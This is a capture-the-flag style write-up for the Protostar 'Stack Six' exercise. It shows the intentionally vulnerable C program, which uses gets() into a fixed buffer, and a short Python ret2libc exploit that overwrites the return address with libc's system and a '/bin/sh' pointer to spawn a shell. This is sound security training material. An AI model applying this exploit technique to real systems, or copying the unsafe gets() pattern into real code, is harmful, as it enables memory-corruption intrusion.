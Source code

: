 # Stack Six

## Description

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Exploit script

```python
from struct import pack

payload =  "A"*80
payload += pack("I", 0xb7ecffb0)    # `system` in libc
payload += "BBBB"                   # fake ret
payload += pack("I", 0xb7fb63bf)    # ptr -> `/bin/sh\x00`
print(payload)
```

Level passed!

<p align="center">
    <img src="./done.png">
</p>